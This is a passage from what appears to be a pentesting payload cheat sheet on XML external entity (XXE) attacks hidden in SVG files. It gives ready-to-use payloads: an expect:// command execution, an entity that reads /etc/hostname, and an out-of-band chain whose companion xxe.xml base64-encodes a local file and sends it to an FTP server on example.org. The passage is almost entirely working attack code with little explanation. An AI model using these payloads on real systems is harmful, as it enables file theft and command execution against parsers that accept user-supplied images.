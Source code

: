 * [NetSPI/Content-Type Converter](https://github.com/NetSPI/Burp-Extensions/releases/tag/1.4)


## XXE in Exotic Files

### XXE Inside SVG

```xml
<svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" width="300" version="1.1" height="200">
    <image xlink:href="expect://ls" width="200" height="200"></image>
</svg>
```

**Classic**

```xml
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
   <text font-size="16" x="0" y="16">&xxe;</text>
</svg>
```

**OOB via SVG rasterization**

_xxe.svg_

```xml
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE svg [
<!ELEMENT svg ANY >
<!ENTITY % sp SYSTEM "http://example.org:8080/xxe.xml">
%sp;
%param1;
]>
<svg viewBox="0 0 200 200" version="1.2" xmlns="http://www.w3.org/2000/svg" style="fill:red">
      <text x="15" y="100" style="fill:black">XXE via SVG rasterization</text>
      <rect x="0" y="0" rx="10" ry="10" width="200" height="200" style="fill:pink;opacity:0.7"/>
      <flowRoot font-size="15">
         <flowRegion>
           <rect x="0" y="0" width="200" height="200" style="fill:red;opacity:0.3"/>
         </flowRegion>
         <flowDiv>
            <flowPara>&exfil;</flowPara>
         </flowDiv>
      </flowRoot>
</svg>
```

*xxe.xml*

```xml
<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=/etc/hostname">
<!ENTITY % param1 "<!ENTITY exfil SYSTEM 'ftp://example.org:2121/%data;'>">
```

